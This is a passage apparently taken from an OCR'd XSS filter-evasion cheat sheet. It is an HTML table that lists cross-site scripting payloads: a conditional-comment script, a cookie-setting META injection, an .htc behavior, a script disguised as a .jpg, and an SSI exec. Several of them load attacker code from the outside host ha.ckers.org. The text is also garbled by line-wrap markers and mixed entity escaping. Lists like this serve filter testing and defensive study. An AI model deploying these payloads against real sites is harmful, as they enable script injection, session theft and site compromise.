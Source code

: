 &amp;lt;?import »
namespace="t" »
implementation="#default#tim »
e2"&amp;gt;</pre>
</td>
<td>
<div>&lt;?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"&gt;&lt; ?import namespace="t" implementation="#default#time2"&gt;</div></td>
</tr>
<tr>
<td>Commented-out Block</td>
<td>
<pre>&lt;!--[if gte IE »
4]&gt;
&lt;SCRIPT&gt;alert('XSS');&lt;/S »
CRIPT&gt;
&lt;![endif]--&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Cookie Manipulation</td>
<td>
<pre>&lt;META »
HTTP-EQUIV="Set-Cookie" »
Content="USERID=&lt;SCRIPT&gt;aler »
t('XSS')&lt;/SCRIPT&gt;"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Local .htc file</td>
<td>
<pre>&lt;XSS STYLE="behavior: »
url(http://ha.ckers.org/xss. »
htc);"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Rename .js to .jpg</td>
<td>
<pre>&lt;SCRIPT »
SRC="http://ha.ckers.org/xss »
.jpg"&gt;&lt;/SCRIPT&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>SSI</td>
<td>
<pre>&lt;!--#exec cmd="/bin/echo »
'&lt;SCRIPT SRC'"--&gt;&lt;!--#exec »
cmd="/bin/echo »
'=http://ha.ckers.org/xss.js »
&gt;&lt;/SCRIPT&gt;'"--&gt;</pre>
</td>
<td></td>
<td></td>
</tr>